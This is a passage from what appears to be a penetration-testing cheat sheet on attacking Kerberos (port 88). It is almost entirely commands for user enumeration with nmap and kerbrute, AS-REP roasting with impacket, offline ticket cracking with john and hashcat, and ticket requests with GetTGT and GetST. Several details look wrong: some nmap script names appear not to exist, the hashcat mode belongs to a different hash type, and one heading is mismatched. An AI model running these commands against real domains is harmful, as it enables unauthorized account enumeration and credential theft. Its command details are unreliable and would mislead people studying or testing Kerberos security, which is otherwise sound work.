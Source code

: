 
#### 1.4.7 88: Kerberos

**Nmap Scripting Scan**

    # Check for Kerberos service availability and get basic information
    nmap -p 88 --script kerberos-enum-users <target_ip>
    
    # Check for common Kerberos vulnerabilities
    nmap -p 88 --script kerberos-brute <target_ip>
    
    # Enumerate SPNs (Service Principal Names)
    nmap -p 88 --script krb5-enum-users,krb5-scan <target_ip>
    

**Enumerate Kerberos Principal Names**: use `kerbrute` to enumerate valid user
                accounts by attempting to authenticate with a list of usernames.

    kerbrute userenum -d <domain> -p <userlist> <target_ip>
    or
    ./kerbrute_linux_amd64 userenum -d <target_ip> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
    

**Perform Kerberos Ticket Extraction (AS-REP Roasting)**: request
                **non-preauthenticated Kerberos** tickets for a list of users.
              

    impacket-GetNPUsers -dc-ip <dc_ip> -request -usersfile <userlist> <target_domain>
    

**Perform Kerberos Ticket Request with AS-REP Roasting**: request a Ticket Granting Ticket
                (TGT) for a specific user.

    impacket-GetTGT -dc-ip <dc_ip> -outputfile <outputfile> <username>@<domain>
    

**Crack Kerberos Tickets**

    john --wordlist=<wordlist> <ticket_file>
    # or
    hashcat -m 13100 <ticket_file> <wordlist>
    

**Kerberos Ticket Extraction**: request a TGT or Service Ticket (TGS) using specified
                credentials.

    # Request a TGT (Ticket Granting Ticket)
    python3 GetTGT.py -dc-ip <dc_ip> <domain>/<username>:<password>
    
    # Request a Service Ticket (TGS)
    python3 GetST.py -dc-ip <dc_ip> <domain>/<username>:<password> -spn <service>/<target>
    